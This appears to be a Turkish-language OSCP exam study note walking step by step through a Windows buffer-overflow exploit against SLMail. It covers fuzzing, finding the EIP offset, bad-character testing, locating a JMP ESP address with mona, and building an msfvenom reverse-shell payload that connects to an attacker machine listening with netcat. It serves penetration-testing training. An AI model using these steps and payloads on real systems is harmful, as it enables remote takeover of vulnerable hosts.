




# BOF Windows
> OSCP sınavı BOF adımları

## Overview
uygulamayı analiz etmek için 3 method vardır.
* Kaynak kod analizi
* Reverse engineering
* Fuzzing

## Fuzzing

SLMail uygulaması için ornek fuzzing

for @ ("A"*30)

#### Hangi Karakterde patladığını bulma

- Uygulamayı admin olarak aç
- Immumity Debugger ı aç
- File > Attach SLmail OK
- (optional) Font değişikliği: Sağ tık > Appearance > Font > OEM fixed
- (optional) Hex 8->16 byte: Sağ tık > Hex > Hex/ASCI 16 bytes

Immumity debugger defaultta stop durumdadır. 
- Start'a tıklanır >
- Fuzzing script çalıştırılır.
- App crash olur, debugger durur.
- Fuzzing script hangi byte da crash olduguna gore script duzenlenebilir.

> Not: OSCP sınavında poc.py kodu verilmektedir. Buraya kadarki kısım ozet BOF anlatımı içindir.


## Crash Replication

```
buffer = 'A'*2700
```

**NOT: Uygulama her seferinde task manager dan kapatılmalı ve immunity debuuger a attach edilmelidir.**

## Controlling EIP (OSCP Soru Baslangic)

Kali:
```
locate pattern_create 
```
ile dosya lokasyonu alınır ve aşağıdaki komut çalıştırılır. Not: 2700 koda göre değişecek.
```
/usr/share/metasploit-framework/tools/pattern_create.rb -l 2700
```

- Bu karakterler serisi alınır ve poc kodu degistirilir: 

```
buffer = '<konyalananPattern>'
```
ya da
```
buffer = cmd + '<konyalananPattern>' + end
```

- Exploit kodu çalıştırılır ve **EIP'deki** deger alınır

Kali:
```
locate pattern_offset.rb
/usr/share/metasploit-framework/tools/pattern_offset.rb -q <EIPdeger>

Dönen Örnek Cevap:

Offset 2606
```

POC.py`değiştirilir.
```
buffer = 'A'*2606 + 'B'*4 + 'C'*90
```
Not: 90 olması toplamda 2700 yapmak icin.

- Uygulama tekrar attach edilir. 
- EIP register 42424242 olmalı, yani BBBB.

Buraya kadar OK ise, devam edilir. **EIP BBBB olmadıysa işlem tekrar yapılır.**

## Introducing Shellcode

- ESP > Sağ tık > Follow in Dump


Change Code:
```
buffer = 'A'*2606 + 'B'*4 + 'C'*(3500-2606-4)
```

Kaç byte bosluk oldugunu gormek icin aşağıdaki resimdeki gibi C'lerin sonuna bakılabilir.



## Bad Characters

POC.py editlenir:

** BadChars Kontrol Dizisi **
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```
buffer = 'A'*2606 + 'B'*4 + badchars
```

- Bu şekilde kod çalıştırılır. 
- ESP follow yapılır.

Not: 00 null bytes'dır default'ta.

- Aşağıdaki gibi diziyi bozan karakterler code'dan sırayla çıkartılarak bu işlem sonuna kadar devam ettirilir.



- Bu ornekte /x0a badcharacters'dir. 
- Flow u bozan bütün bad characters ler silinir. /x00, /x0a, /x0d
- Sadece kendisinden sonra gelenleri bozan karakterler değil, kendisini göstermeyip gerisini düzgün gösteren karakterler de silinir.

## Redirecting Execution

Statik ESP adresi iyi bir çözüm değildir bu yüzden ESP'yi daha akıllıca değiştirmemiz lazım.

### Introducing Mona

** JMP ESP Bulma **

Mona modules ile dll'ler bulunur. Bu DLL ler bulunurken bir kaç kriter vardır.


```
!mona modules
```

Kriter'ler:
- Safeseh, aslr, rebase, nxcompat false olmalı
- Null bytes ile başlamamalı
- bad characters olmamalı.

buradan ilgili .dll dosyası bulunur.

- Executable module list'e tıklanır. (e)
- Module list (m)

- ilgili .dll dosyası bulunur ve çift tıklanır.
- Immunity Debugger baslik ilgili DLL oldugu gorulur.



** JMP ESP ** bulmak için mona dan yararlanmak mantıklı.



JMP ESP -> FFE4

```
!mona find -s '\xff\xe4' -m <dllfile>
```

For example: 5F4A358F

Edit the POC code:

```
buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + 'C'*(3500-2606-4)
```

Immunity Debugger da F2 ye basarak ESP başına breakpoint koyabiliriz.

F8 ile devam ettiğimizde kodun ESP başına INC EBX e gittiğini görebiliriz. Burada istenilen kod çalıştırılabilir.

## Shellcode

Create shell code:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

eğer çalışmaz ise encode aşağıdaki gibi değiştirilebilir.

```
 -e x86/fnstenv_mov
```

Shellcode POC koda yapıstirilir ve code asağıdaki gibi değiştirilir.

```
shellcode = ("kod")

buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + '\x90'*16 +shellcode + 'C'*(3500-2606-4-351-16)
```

POC kodu atak makinada çalıştırılır ve lport dinlenir. (nc -nvlp 443)

shell gelir.
